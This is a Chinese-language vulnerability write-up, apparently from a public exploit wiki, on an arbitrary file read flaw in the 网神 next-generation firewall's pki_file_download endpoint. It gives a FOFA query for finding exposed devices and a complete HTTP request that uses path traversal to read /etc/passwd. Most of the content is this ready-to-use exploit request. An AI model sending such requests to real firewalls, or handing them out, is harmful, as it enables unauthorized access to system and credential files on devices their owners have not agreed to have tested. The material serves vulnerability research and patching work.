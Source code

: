 # 网神下一代极速防火墙 pki_file_download 任意文件读取漏洞

## 漏洞描述

网神下一代极速防火墙 pki_file_download 存在任意文件读取漏洞，攻击者可以通过漏洞获取服务器上的任意文件

## 漏洞影响

> [!NOTE]
>
> 网神下一代极速防火墙

## FOFA

> [!NOTE]
>
> app="网神下一代极速防火墙"

## 漏洞复现

登录页面如下

![image-20210521085429879](http://wikioss.peiqi.tech/vuln/image-20210521085429879.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送请求包

```
GET /?g=pki_file_download&filename=../../../../../etc/passwd HTTP/1.1
Host: 
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __s_sessionid__=7rl7vvg1mlc00gf4pfmo74h0t7
```

![image-20210521085847583](http://wikioss.peiqi.tech/vuln/image-20210521085847583.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

